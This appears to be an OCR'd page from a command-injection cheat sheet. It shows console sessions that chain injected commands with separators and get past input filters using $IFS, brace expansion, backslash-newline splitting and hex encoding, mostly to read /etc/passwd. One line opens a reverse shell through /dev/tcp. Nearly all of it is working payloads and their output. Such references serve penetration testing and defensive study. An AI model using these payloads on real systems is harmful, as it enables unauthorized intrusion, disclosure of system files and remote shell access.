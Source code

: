 ```console
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls
```
## Filter Bypass without space

```console
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab:~$ sh</dev/tcp/127.0.0.1/4242
```
## Bypass with backslash newline

```console 
❯ cat /et\
c/pa\
sswd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[SNIP]
```

## Bypass characters filter via hex encoding (Linux)

```console
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
```
